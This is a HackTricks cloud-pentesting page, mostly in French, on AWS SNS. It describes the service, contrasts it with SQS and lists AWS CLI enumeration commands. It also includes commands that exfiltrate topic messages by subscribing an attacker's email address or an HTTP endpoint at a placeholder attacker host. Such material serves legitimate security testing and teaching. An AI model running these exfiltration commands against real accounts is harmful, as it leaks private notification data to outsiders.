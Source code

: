 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) est décrit comme un **service de messagerie entièrement géré**. Il prend en charge à la fois les types de communication **application-à-application** (A2A) et **application-à-personne** (A2P).

Les fonctionnalités clés pour la communication A2A incluent les **mécanismes de publication/abonnement (pub/sub)**. Ces mécanismes introduisent des **sujets**, cruciaux pour permettre une messagerie **push basée sur le haut débit et de nombreux à de nombreux**. Cette fonctionnalité est très avantageuse dans les scénarios impliquant des systèmes distribués, des microservices et des architectures sans serveur basées sur des événements. En tirant parti de ces sujets, les systèmes de publication peuvent distribuer efficacement des messages à un **large éventail de systèmes d'abonnement**, facilitant un modèle de messagerie en éventail.

### **Difference with SQS**

**SQS** est un service **basé sur des files d'attente** qui permet une communication point à point, garantissant que les messages sont traités par un **unique consommateur**. Il offre une **livraison au moins une fois**, prend en charge les files d'attente standard et FIFO, et permet la conservation des messages pour des réessais et un traitement différé.\
D'autre part, **SNS** est un service **basé sur la publication/abonnement**, permettant une communication **un-à-plusieurs** en diffusant des messages à **plusieurs abonnés** simultanément. Il prend en charge **divers points de terminaison d'abonnement comme l'email, le SMS, les fonctions Lambda et HTTP/HTTPS**, et fournit des mécanismes de filtrage pour une livraison ciblée des messages.\
Bien que les deux services permettent le découplage entre les composants dans des systèmes distribués, SQS se concentre sur la communication en file d'attente, tandis que SNS met l'accent sur les modèles de communication basés sur des événements et en éventail.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Notez que si le **sujet est de type FIFO**, seuls les abonnés utilisant le protocole **SQS** peuvent être utilisés (HTTP ou HTTPS ne peuvent pas être utilisés).

De plus, même si le `--topic-arn` contient la région, assurez-vous de spécifier la bonne région dans **`--region`** ou vous obtiendrez une erreur qui ressemble à une indication que vous n'avez pas accès, mais le problème est la région.
{% endhint %}

#### Accès non authentifié

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Escalade de privilèges

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post-exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistance

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Références

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
